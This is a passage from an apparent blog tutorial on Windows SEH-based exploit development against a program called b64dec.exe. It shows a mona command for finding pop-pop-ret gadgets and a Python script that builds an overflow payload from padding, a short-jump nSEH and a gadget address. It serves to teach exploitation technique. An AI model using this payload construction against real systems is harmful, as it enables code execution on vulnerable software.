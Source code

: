 {:refdef: style="text-align: center;"}
![PLIST-FILE_3]({{site.url}}/blog/img/windows_exploit_dev_2/windows10.png)
{: refdef}

All of the library used to search for gadget for SEH have ASLR and NX enabled, we can used original binary of the program(b64dec.exe) but if you take a look at it in more detail, it contains a null byte.

Most of the tutorial or post about exploit development recommend you not to used address that contains null byte, but in this case it might be an exception. Why? null byte is not allowed to used in exploit because it will truncated the next sequence of payload since computer think this as a stop sign to take input, BUT! we don't have to worry about it since our exploit actually move backward not forward so we can just put a null byte at the end of our exploit.

{% highlight sh %}
!mona seh -m "b64dec.exe" -cpb "\x00\x0a\x0d"
{% endhighlight %}

The bad characters filter used to make sure there are now new line in our exploit.

You can choose any gadget that found by mona from the above command and lets update our script like this:

{% highlight py %}
import struct

padding = "A" * 620
nseh = struct.pack("<I",0x80eb9090) #short jump 
seh = "\x13\xc0\x40" # pop pop ret gadget

payload = padding + nseh + seh 

with open("payload.txt","wb") as file:
  file.write(payload)
  file.close()

print "[!] payload.txt ready to uploaded"

{% endhighlight %}

For the seh don't use struct to convert into little endian, you have to do it manually like above, since .pack() function will add "\x20" as an extra character.

<h2> Execute the Plan </h2>

Run the script and put the payload, in this case, I put a hardware breakpoint at the pop pop ret gadget to just check everything going smoothly. Don't forget to bypass the exception twice in the immunity debugger by type "shift+f9".

{:refdef: style="text-align: center;"}
![PLIST-FILE_3]({{site.url}}/blog/img/windows_exploit_dev_2/windows11.png)
{: refdef}

{:refdef: style="text-align: center;"}
![PLIST-FILE_3]({{site.url}}/blog/img/windows_exploit_dev_2/windows12.png)
{: refdef}


[breaking-link]: https://court-of-testing-analysing.blogspot.com/2019/11/breaking-code-exploit-development.html
[ie-link]: https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/
[exploitdb-link]: https://www.exploit-db.com/exploits/46625
[fuzzy-link]: https://www.fuzzysecurity.com/tutorials/expDev/3.html